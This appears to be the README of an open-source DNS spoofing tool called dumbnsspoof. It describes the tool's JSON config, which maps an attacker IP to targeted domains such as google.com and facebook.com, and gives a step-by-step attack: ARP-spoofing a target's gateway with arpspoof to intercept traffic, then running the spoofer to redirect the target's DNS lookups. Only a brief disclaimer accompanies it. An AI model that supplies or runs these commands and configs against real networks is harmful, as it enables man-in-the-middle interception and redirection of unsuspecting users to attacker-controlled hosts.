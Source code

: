 # dumbnsspoof
dns spoofing tool

dumbns is a DNS spoofing tool, the attack wont do MITM by it self, you need to do it by yourself, this script listen for DNS traffic and return a response base on the given config, if no requested domain was ask the script will drop the packet.

## legal
any use of this script on unauthorized networks make the user the responsible and not the developer

## problem with DNSspoofing && dumbnsspoof
most systems will store DNS data in a file called HOSTS file so they wont need to go thorug the DNS process again, so this wont always work first time
on visited site, the script does not support DNS tcp connections<br><br>

if you gonna try to redirect a domain to IP that runs multi domains, most of the time you will get 404 error because you redirecting
a domain that the IP does not support

## problem with node http-server
if you are using (for tests) node `http-server`, the script will send the correct spoofed ip but some times the `http-server` wont complete the 3-way handshake
this is a problem with the `http-server` and not the script, to fix it restart the server and refresh the browser, I recommend alternative for `http-server` 

## config file
when running dumbns it will look for a config file (default name "dumbns.config.json" can be changed with `--config`), the config file is in JSON format

|    name   |  requested value  |                                                                                description                                                                               |
|:---------:|:-----------------:|:------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
|    ttl    |        int        |                                                for how much time the DNS response is valid to be stored in the HOSTS file                                                |
|  dns_mac  |       string      | if added it will optimize the filtering, if added with -e3 it will optimize the filtering and the script will be able to send the real dns-server the ICMP type 3 packet |
|   echo3   |        bool       |                                            send ICMP type3 code 3 to the real dns-server when match found (requires `dns_mac`)                                           |
|  targets  |        list       |                                                                            targets list of IP                                                                            |
|  domains  | dict (aka js obj) |                                                     the key is the attacker IP, the value is a list or regex domains                                                     |
| interface |       string      |                                                                        the interface to listen on                                                                        |

## MITM with dumbns
for home networks a dns request is send to the gateway and then the gateway will send the request to a real DNS server, or some computers have a static DNS ip <br>
but all the traffice goes through the gateway so we need to do MITM attack to see outgoing DNS packets

for this example I will use `arpspoof` from here => https://github.com/byt3bl33d3r/arpspoof <br>

```sh
foo@foo:~$ sudo arpspoof -r -i eth0 -t <target-ip> <gateway ip>
```
this will make the target think you are the gateway and now we will be able to see the outgoing data of the target

```json
# dumbns.config.json
  {
    "targets": ["<target-ip>"],
    "domains": {
      "<attacker-ip>": [
        "google.com",
        "facebook.com"
      ]
    },
    "interface": "eth0"
  }
```
now that we have the config lets run the attack

```sh
foo@foo:~$ sudo python3 dumbnsspoof.py
```


